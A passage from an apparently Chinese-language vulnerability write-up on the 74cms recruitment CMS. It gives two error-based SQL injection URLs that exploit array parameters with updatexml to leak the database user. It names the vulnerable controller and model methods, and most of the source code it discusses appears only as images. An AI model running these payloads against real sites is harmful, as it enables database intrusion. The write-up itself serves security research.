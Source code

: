 ![](images/15889214108728.png)


![](images/15889214162789.png)


注册完成以后登录前台即可


```bash
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

如果不登录的话，会显示这个样子
url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus
```

![](images/15889214334248.png)


`http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a`

![](images/15889214458513.png)


看源码

![](images/15889214536731.png)


打开文件： `74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php`

方法：`add_focus(`

![](images/15889214626649.png)

## 0x06 74cms独有框架漏洞第二处

文件：`74cms\upload\Application\Home\Controller\CompanyServiceController.class.php`

方法：`order_pay_finish(`

是否需登录：需要

登录权限：企业用户即可

看源码

![](images/15889214900773.png)


为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。

![](images/15889214990723.png)


![](images/15889215035108.png)
